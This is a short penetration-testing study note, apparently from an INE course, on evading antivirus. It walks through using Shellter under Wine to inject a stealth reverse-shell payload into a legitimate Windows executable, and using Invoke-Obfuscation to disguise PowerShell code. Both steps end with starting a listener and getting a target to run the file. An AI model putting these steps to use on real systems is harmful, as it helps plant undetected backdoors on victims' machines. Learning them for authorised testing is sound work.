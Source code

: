 # Obfuscation

## AV Evasion With Shellter

* https://www.shellterproject.com/
```
sudo apt-get install shellter -y
```
* Windows exe, so you need wine to run Shellter on Linux
* Sheller only supports x86, so you need the 32 bit version of Wine
```
sudo dpkg --add-architecture i386
```
```
sudo apt-get install wine32
```
```
cd /usr/share/windows-resources/shellter
```


Get a legit exe to put malicious payload into:
```
cd /usr/share/windows-binaries/
```

Execute .exe on Linux:
```
sudo wine shellter.exe
```
```
A
```
```
[PATCH-TO-LEGIT-EXE]
```
Enable Stealth Mode? (exe runs in background? Y or N)
```
Y
```
Listed or Custom Payload?
```
```
L
```
[PAYLOAD-INDEX]
```
```
[IP-ADDRESS]
```
```
[LPORT]
```
Enter to continue...

*The legit exe has been replaced by malicious exe*

* Now set up a listener and get target to run the exe

***********************************************************************

## Obfuscating PowerShell Code

### Invoke-Obfuscation

* GitHub:
   * https://github.com/danielbohannon/invoke-obfuscation


Install PowerShell on Linux:
```
sudo apt-get install powershell -y
```

Launch it:
```
pwsh
```
```
dir
```
```
Import-Module ./[MODULE]
```
```
[MODULE]
```

* Now get PowerShell Code of choice and set script path:
```
SET SCRIPTPATH [PATCH-TO-POWERSHELL-CODE]
```
```
[CHOOSE-OBFUSCATION-TYPE]
```
* Now copy & paste output code into a file. 
* Then Transfer file to target, start a listener, and have the target run the code.

*you can go back with 'back' and you can reset encoding with 'reset'*


***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2